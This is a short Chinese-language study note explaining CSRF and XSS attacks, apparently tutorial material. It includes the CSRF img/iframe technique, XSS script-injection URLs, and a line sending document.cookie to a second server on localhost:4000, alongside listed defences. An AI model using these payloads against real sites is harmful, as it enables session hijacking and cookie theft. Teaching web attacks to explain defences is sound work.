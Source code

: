 ### 攻击xss,csrf
#### 1. csrf攻击
在其他域名下访问被攻击者之前访问域名下的接口，通过img标签的形式，向同一个服务器发送请求，从而形成攻击。    
例如：A用户访问B（域名：http://www.b.com） 网站，登录成功以后cookie信息已经获取到，B网站发送了一个请求 http://www.b.com/list/delete?id=“11” 这样会删除了id为11的信息。如果攻击者此时利用C页面(http:www.c.com)放了一个img标签，且src=‘http://www.b.com/list/delete?id=“12”’ 这样就会向后端发起删除id为12的信息，起到攻击的作用。 因为C页面的src的链接是b页面的，同一个浏览器下面，不同的窗口，向同一个域发起的请求是共享cookie的，所以此时就像是在b网站发起请求一样，也是携带cookie，服务端认为是合法的，从而把id=12的记录给删除了，起到了攻击的作用。    
或者是在c页面放置一个iframe，iframe的链接是删除链接，此时也是可以起到攻击的作用，而且iframe的这种攻击是用浏览器的请求头里的refer字段无法识别的，因为此时的refer的地址就是iframe的地址，即b页面的地址，所以此时使用refer无效。使用img标签的时候应该是可以使用refer来判断访问的网站的。    

#### 2. xss攻击（跨站脚本攻击），利用注入脚本攻击

##### （1）反射型 - url参数直接注入
①：普通：http://localhost:3000/?from=china      
②：alert尝试：http://localhost:3000/?from=<script>alert(3)</script>    
③：获取Cookie：http://localhost:3000/?from=<script src="http://localhost:4000/hack.js"></script>    
伪造cookie入侵： document.cookie="kaikeba:sess=eyJ1c2VybmFtZSI6Imxhb3dhbmciLCJfZXhwaXJlIjoxNTUzNTY1MDAxODYxLCJfbWF4QWdlIjo4NjQwMDAwMH0="    
直接在4000端口的页面输入脚本：var img = new Image(); img.src='http://localhost:4000/img?c='+document.cookie 就能获取cookie    

##### （2）存储型 - 存储到DB后读取时注入（在输入框，例如评论区输入内容）
评论：<script>alert(1)</script>     
跨站脚本注入：我来了<script src="http://localhost:4000/hack.js"></script>

**防范手段**：
+ ejs转义字符
+ 设置黑名单
+ httpOnly cookie（即cookie不能通过document.cookie的方式获取，只能浏览器请求后台时自动带在头部）

> xss：跨站脚本攻击、诱骗用户点击恶意链接<u>盗取用户 cookie</u> 进行攻击、不需要用户进行登录、xss 除了利用 cookie 还可以篡改网页等
>
> csrf：跨站请求伪造、<u>无法获取用户的 cookie</u> 而是<u>直接冒充用户、需要用户登录后进行操作</u>

